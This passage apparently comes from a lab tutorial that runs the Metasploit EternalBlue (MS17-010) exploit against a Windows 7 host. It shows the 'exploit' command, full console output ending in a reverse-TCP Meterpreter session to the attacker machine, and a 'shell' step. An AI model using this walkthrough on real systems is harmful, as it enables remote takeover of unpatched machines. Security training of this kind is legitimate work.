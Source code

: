 ### 6. Run the exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] 192.168.8.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.8.130:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.8.130:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.8.130:445 - The target is vulnerable.
[*] 192.168.8.130:445 - Connecting to target for exploitation.
[+] 192.168.8.130:445 - Connection established for exploitation.
[+] 192.168.8.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.8.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.8.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.8.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.8.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.8.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.8.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.8.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.8.130:445 - Starting non-paged pool grooming
[+] 192.168.8.130:445 - Sending SMBv2 buffers
[+] 192.168.8.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.8.130:445 - Sending final SMBv2 buffers.
[*] 192.168.8.130:445 - Sending last fragment of exploit packet!
[*] 192.168.8.130:445 - Receiving response from exploit packet
[+] 192.168.8.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.8.130:445 - Sending egg to corrupted connection.
[*] 192.168.8.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.8.130
[*] Meterpreter session 1 opened (192.168.8.147:4444 -> 192.168.8.130:49192) at 2023-03-29 04:41:52 -0400
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 7. Meterpreter session

Now you have a **meterpreter** session opened. This session will allow you to interact with the target.

```
meterpreter >
```

### 7. Open a shell on the target machine

`shell`
